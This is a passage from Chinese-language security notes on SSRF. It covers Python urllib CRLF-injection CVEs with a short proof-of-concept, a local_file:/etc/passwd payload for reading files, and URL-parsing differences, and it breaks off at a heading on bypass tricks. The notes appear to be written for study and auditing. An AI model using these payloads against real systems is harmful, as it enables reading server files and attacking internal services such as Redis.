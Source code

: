 
## java 中的 ssrf

- [java ssrf](../../语言安全/JAVA安全/JAVA代码审计.md#ssrf)

---

## php 中的 ssrf

- [php ssrf](../../语言安全/PHP安全/PHP代码审计.md#ssrf)

---

## python 中的 ssrf

在 Python 中，常用的函数有 urllib(urllib2) 和 requests 库。

**CVE-2019-9740 & CVE-2019-9947**

以 urllib(urllib2) 为例， urllib 并不支持 gopher,dict 协议，但 urllib 曾爆出 CVE-2019-9740、CVE-2019-9947 两个漏洞，这两个漏洞都是 urllib(urllib2) 的 CRLF 漏洞，触发点不同，其影响范围都在 urllib2 in Python 2.x through 2.7.16 and urllib in Python 3.x through 3.7.3 之间.

**漏洞示例**
```py
import sys
import urllib2
host = "127.0.0.1:7777?a=1 HTTP/1.1\r\nCRLF-injection:
test\r\nTEST: 123"
url = "http://"+ host + ":8080/test/?test=a"
try:
  info = urllib2.urlopen(url).info()
  print(info)
except Exception as e:
  print(e)
```

通过 CLRF漏洞，实现换行对redis的攻击

**CVE-2019-9948**

该漏洞只影响 urllib，范围在 Python 2.x 到 2.7.16，这个版本间的 urllib 支持 local_file/local-file 协议，可以读取任意文件

```
/ssrf?url=local_file:/etc/passwd
/ssrf?url=local-file:/etc/passwd
```

**解析差异**

已目标为例 http://baidu.com\@qq.com
- urllib3 取到的 host 是 baidu.com
- urllib 取到的 host 是 qq.com

---

## 绕过技巧
